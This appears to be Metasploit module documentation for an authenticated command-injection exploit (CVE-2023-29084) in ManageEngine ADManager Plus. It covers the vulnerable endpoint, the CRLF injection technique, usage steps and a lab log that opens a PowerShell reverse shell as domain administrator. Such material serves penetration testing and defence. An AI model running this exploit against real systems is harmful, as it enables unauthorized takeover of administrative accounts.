 ## Vulnerable Application
ManageEngine ADManager Plus prior to build 7181 is vulnerable to an authenticated command injection due to insufficient
validation of user input when performing the `ChangePasswordAction` function before passing it into a string that is later
used as an OS command to execute. 

By making a POST request to `/api/json/admin/saveServerSettings` with a `params` POST
parameter containing a JSON array object that has a `USERNAME` or `PASSWORD` element containing a 
carriage return and newline, followed by the command the attacker wishes to execute, an attacker can gain RCE as the user
running ADManager Plus, which will typically be the local administrator. 

Note that the attacker must be authenticated in order to send requests to `/api/json/admin/saveServerSettings`, 
so this vulnerability does require authentication to exploit.

## Verification Steps

1. Set up a Windows Server target as a domain controller server.
2. Download https://web.archive.org/web/20220926012908if_/https://download.manageengine.com/products/ad-manager/13024552/ManageEngine_ADManager_Plus_64.exe onto the target and run through the setup window, accepting defaults.
3. Start `msfconsole`
4. `set RHOST *target IP*`
5. `set LHOST *local IP address*`
6. `set SRVHOST *local IP address*` <- This step is optional depending on payload.
7. `exploit`
8. You should get a shell back as the local administrator user on the target machine.

## Options

### USERNAME
Username to log into ADManager Plus as.

### PASSWORD
Password to log into ADManager Plus with.

### DOMAIN
Domain to log into ADManager Plus with or `ADManager Plus Authentication`.

## Scenarios

### ManageEngine ADManager Plus Build 7151 on Windows Server 2022
```
msf6 exploit(windows/http/manageengine_admanager_plus_cve_2023_29084_auth_cmd_injection) > show options

Module options (exploit/windows/http/manageengine_admanager_plus_cve_2023_29084_auth_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  admin            yes       The password to log in with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    192.168.64.137   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     8080             yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   USERNAME  admin            yes       The user to log into ADManager Plus as
   VHOST                      no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  192.168.64.128   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         192.168.64.128   yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         8899             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/manageengine_admanager_plus_cve_2023_29084_auth_cmd_injection) > exploit

[*] Started reverse TCP handler on 192.168.64.128:8899 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is running AdManager Plus build 7151!
[+] The target appears to be vulnerable. Target appears to be running a vulnerable version of AdManager Plus!
[+] Logged in successfully!
[*] Powershell session session 2 opened (192.168.64.128:8899 -> 192.168.64.137:52930) at 2023-05-23 13:34:34 -0500
[*] Stopping exploit/multi/handler
[+] Request timed out. Its likely the payload executed successfully!

PS C:\Program Files\ManageEngine\ADManager Plus\bin> whoami    
daforest\administrator
PS C:\Program Files\ManageEngine\ADManager Plus\bin> background

Background session 2? [y/N]  y
msf6 exploit(windows/http/manageengine_admanager_plus_cve_2023_29084_auth_cmd_injection) > sessions

Active sessions
===============

  Id  Name  Type                Information                      Connection
  --  ----  ----                -----------                      ----------
  2         powershell windows  Administrator @ WIN-E72FSF87GO1  192.168.64.128:8899 -> 192.168.64.137:52930 (192.168.64.137)

msf6 exploit(windows/http/manageengine_admanager_plus_cve_2023_29084_auth_cmd_injection) > 
```

